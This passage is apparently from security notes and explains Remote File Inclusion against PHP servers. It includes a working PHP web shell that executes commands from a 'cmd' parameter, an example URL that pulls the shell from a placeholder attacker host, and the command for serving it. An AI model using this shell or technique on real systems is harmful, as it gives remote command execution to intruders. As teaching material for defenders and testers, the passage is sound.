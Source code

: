 Remote File Inclusion or RFI is done the same way of LFI, but we have to be the source of the malicious script. In the case of a PHP webserver, It could be

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

And we can call the script with an inclusion of it, eg: `http://webserver.com/index.php?page=http://<attacker-ip>/malicious-file.php` . On the attacker side we have first to launch a webserver with the malicious file with

```shell
python3 -m http.server 80
```
